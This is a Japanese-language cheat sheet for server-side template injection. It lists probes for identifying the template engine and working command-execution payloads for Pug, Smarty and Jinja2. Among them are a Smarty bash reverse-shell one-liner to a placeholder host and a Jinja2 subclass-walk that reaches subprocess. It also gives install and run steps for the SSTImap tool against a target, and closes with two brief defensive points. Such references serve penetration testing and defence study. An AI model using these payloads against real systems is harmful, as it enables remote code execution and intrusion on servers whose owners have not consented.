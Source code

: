 # SSTI サーバー側テンプレートインジェクション

## テンプレートの判別
```
# Twig（PHP）
{{7*'7'}} -> 49

# Jinja2（Python）
{{7*'7'}} -> 7777777

# Pug/（旧称 Jade）（Node.js）
#{7*7} -> 49

＃Smarty
{'Hello'|upper} -> HELLO
```

## システムコマンド

### Pug

javascriptコードを直接実行できる

```javascript
#{root.process.mainModule.require('child_process').spawnSync('ls', ['-al']).stdout}
```

### Smarty

PHPコードを直接実行できる

```PHP
{system("ls")}

{exec("/bin/bash -c 'bash -i >& /dev/tcp/ip/port 0>&1'")}
```

### Jinja2

```Python
# objectクラスのサブクラス一覧
{{"".__class__.__mro__[1].__subclasses__()}}

# <class '_sitebuiltins._Helper'> を使って、
# subprocess.open("ls") を実行
{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output(["ls", "-al"])}}
```

## SSTImap 自動化

### インストール

```shell
git clone https://github.com/vladko312/SSTImap.git
cd SSTImap
pip install -r requirements.txt
```

### 実行

```shell
python3 sstimap.py -X POST -u 'http://$TARGET/' -d 'page='
```

## セキュリティ
- ユーザー入力のサニタイズ
- 環境のサンドボックス化

